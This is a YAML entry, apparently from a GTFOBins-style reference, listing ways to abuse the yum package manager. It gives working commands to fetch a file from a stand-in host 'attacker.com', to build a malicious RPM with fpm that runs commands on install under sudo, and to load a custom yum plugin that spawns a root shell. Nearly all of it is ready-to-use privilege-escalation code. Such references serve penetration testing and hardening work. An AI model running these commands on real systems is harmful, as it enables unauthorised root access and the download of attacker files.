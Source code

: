 ```yaml
---
functions:
  file-download:
    - description: Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.
      code: |
        RHOST=attacker.com
        RFILE=/tmp/file_to_get.tar.rpm
        yum install http://$RHOST/$RFILE
  sudo:
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo yum localinstall -y x-1.0-1.noarch.rpm
    - description: |
        Spawn interactive root shell by loading a custom plugin.
      code: |
        TF=$(mktemp -d)
        cat >$TF/x<<EOF
        [main]
        plugins=1
        pluginpath=$TF
        pluginconfpath=$TF
        EOF

        cat >$TF/y.conf<<EOF
        [main]
        enabled=1
        EOF

        cat >$TF/y.py<<EOF
        import os
        import yum
        from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
        requires_api_version='2.1'
        def init_hook(conduit):
          os.execl('/bin/sh','/bin/sh')
        EOF

        sudo yum -c $TF/x --enableplugin=y
---
```

